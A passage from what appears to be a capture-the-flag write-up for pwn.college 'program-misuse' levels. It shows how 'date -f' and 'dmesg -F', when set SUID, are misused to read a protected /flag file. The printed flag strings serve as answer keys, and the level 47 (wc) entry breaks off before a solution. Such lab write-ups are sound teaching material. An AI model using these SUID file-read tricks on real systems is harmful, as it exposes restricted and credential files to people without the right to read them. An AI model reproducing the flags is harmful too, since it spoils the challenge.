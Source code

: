 The `date` utility displays the current time.

If we provide the `/flag` file to `date`, it prints out the flag within the error message.

```
hacker@program-misuse~level45:/$ date -f /flag
date: invalid date 'pwn.college{cWNNY2O6pysXW2u0FdY6K-vcSTX.01N4EDL4ITM0EzW}'
```

&nbsp;

## level 46

```
hacker@program-misuse~level46:/$ /challenge/babysuid_level46 
Welcome to /challenge/babysuid_level46!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/dmesg.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level46) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/dmesg!
```

`dmesg` is used to examine or control the kernel ring buffer.

We can use the `-F` option to specify a file to read from.

```
hacker@program-misuse~level46:/$ dmesg -F /flag
[    0.000000] pwn.college{YGTV9O0r_S-_OuWtaP9_xp9U5nY.0FO4EDL4ITM0EzW}
```

&nbsp;

## level 47

```
hacker@program-misuse~level47:/$ /challenge/babysuid_level47 
Welcome to /challenge/babysuid_level47!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/wc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level47) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wc!
```

The `wc` command is used for word counting.

